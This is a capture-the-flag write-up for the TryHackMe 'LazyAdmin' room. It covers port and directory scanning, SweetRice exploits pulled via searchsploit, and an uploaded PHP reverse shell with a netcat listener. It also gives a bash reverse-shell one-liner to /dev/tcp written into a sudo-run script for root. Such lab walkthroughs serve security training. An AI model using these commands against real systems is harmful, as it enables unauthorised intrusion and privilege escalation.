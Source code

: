 # LazyAdmin

**Room Link:** [https://tryhackme.com/room/lazyadmin](https://tryhackme.com/room/lazyadmin)



### Scanning

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt 
```



<figure><img src="../../.gitbook/assets/image (76) (2).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
searchsploit sweet rice
searchsploit -m php/webapps/40718.txt
```

<figure><img src="../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (137).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

**Link:** [https://crackstation.net/](https://crackstation.net/)

<figure><img src="../../.gitbook/assets/image (61) (2).png" alt=""><figcaption></figcaption></figure>

Tried to ssh with the credentials but it didn't work, went back to searchsploit because I saw a python script before but it needed credentials. I modified the script to take the input because I waa lazy.&#x20;

**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
searchsploit sweet rice
searchsploit -m php/webapps/40716.py
python 40716.py
```

<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

The php reverse shell setups up a reverse shell so I setup a nc listener on Kali and went to the URL the script mentioned.

<figure><img src="../../.gitbook/assets/image (133).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1234
```

<figure><img src="../../.gitbook/assets/image (132).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

**Victim**

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

<figure><img src="../../.gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>

### **Privilege Escalation**

The user has access to run backup.pl without a password, I checked the the file and all it does is run a bash script. We have access to write to copy.sh so I changed it to a reverse shell one liner and setup my listener on Kali.

<figure><img src="../../.gitbook/assets/image (56) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 8080
```

**Victim**

```
echo "bash -c 'bash -i >& /dev/tcp/$KALI/8080 0>&1'"> copy.sh
sudo /usr/bin/perl /home/itguy/backup.pl
```

<figure><img src="../../.gitbook/assets/image (139).png" alt=""><figcaption></figcaption></figure>















